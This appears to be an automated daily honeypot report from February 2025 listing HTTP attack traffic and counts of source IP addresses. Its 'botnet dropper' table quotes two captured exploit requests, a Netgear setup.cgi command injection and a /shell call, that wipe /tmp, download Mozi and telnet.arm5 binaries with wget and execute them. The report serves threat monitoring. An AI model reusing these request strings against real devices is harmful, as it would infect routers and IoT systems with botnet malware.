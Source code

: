 ```yaml
---
title: "Report: 2025-02-11 "
date: 2025-02-11
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-11
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                   |
|---:|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 139.5.11.94     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
|  1 | 146.190.143.107 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    45 | 103.146.158.143 |
|   1 |                    45 | 102.211.152.45  |
|   2 |                    41 | 92.255.57.58    |
|   3 |                    38 | 78.153.140.224  |
|   4 |                    35 | 185.196.220.253 |
|   5 |                    28 | 179.43.160.138  |
|   6 |                    25 | 95.214.55.132   |
|   7 |                    24 | 193.68.89.10    |
|   8 |                    20 | 176.65.137.206  |
|   9 |                    19 | 93.174.93.12    |
|  10 |                    17 | 165.227.136.74  |
|  11 |                    17 | 167.71.34.8     |
|  12 |                    16 | 46.19.143.10    |
|  13 |                    15 | 209.38.245.2    |
|  14 |                    14 | 78.153.140.147  |
|  15 |                    12 | 209.38.165.18   |
|  16 |                    12 | 80.82.77.202    |
|  17 |                    12 | 138.197.141.26  |
|  18 |                    12 | 134.122.35.131  |
|  19 |                    10 | 60.191.125.35   |